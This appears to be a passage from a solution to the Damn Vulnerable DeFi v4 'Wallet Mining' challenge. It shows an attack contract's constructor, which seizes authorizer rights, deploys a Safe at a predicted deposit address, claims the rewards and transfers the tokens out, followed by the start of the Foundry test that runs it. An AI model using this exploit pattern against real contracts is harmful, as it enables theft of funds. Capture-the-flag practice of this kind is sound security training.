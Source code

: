 ```solidity
    constructor(
        address _token,
        address _authorizer,
        address _walletDeployer,
        bytes memory initializer,
        uint256 nonce,
        bytes memory signature
    ) {
        address[] memory wards = new address[](1);
        address[] memory aims = new address[](1);

        wards[0] = address(this);
        aims[0] = USER_DEPOSIT_ADDRESS;

        // set this contract as the authorized address.
        AuthorizerUpgradeable(_authorizer).init(wards, aims);

        // use the nonce to deploy a Safe wallet at the USER_DEPOSIT_ADDRESS address
        WalletDeployer(_walletDeployer).drop(USER_DEPOSIT_ADDRESS, initializer, nonce);

        // transfer the rewards to the ward address
        IERC20(_token).transfer(WARD, INITIAL_WALLET_DEPLOYER_TOKEN_BALANCE);

        // recover the tokens from the Safe wallet to the user's address
        Safe(payable(USER_DEPOSIT_ADDRESS)).execTransaction(
            _token,
            0,
            abi.encodeWithSignature("transfer(address,uint256)", USER, DEPOSIT_TOKEN_AMOUNT),
            Enum.Operation.Call,
            0,
            0,
            0,
            0x0000000000000000000000000000000000000000,
            payable(0),
            signature
        );
    }
}
```

### Test contract

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {SafeProxyFactory} from "@safe-global/safe-smart-account/contracts/proxies/SafeProxyFactory.sol";
import {SafeProxy} from "@safe-global/safe-smart-account/contracts/proxies/SafeProxy.sol";
import {Safe, OwnerManager, Enum} from "@safe-global/safe-smart-account/contracts/Safe.sol";
import {Create2} from "@openzeppelin/contracts/utils/Create2.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {WalletDeployer} from "../../src/wallet-mining/WalletDeployer.sol";
import {
    AuthorizerFactory, AuthorizerUpgradeable, TransparentProxy
} from "../../src/wallet-mining/AuthorizerFactory.sol";
import {AttackWalletDeployer} from "src/wallet-mining/AttackWalletDeployer.sol";

contract WalletMiningChallenge is Test {
    address deployer = makeAddr("deployer");
    address upgrader = makeAddr("upgrader");
```
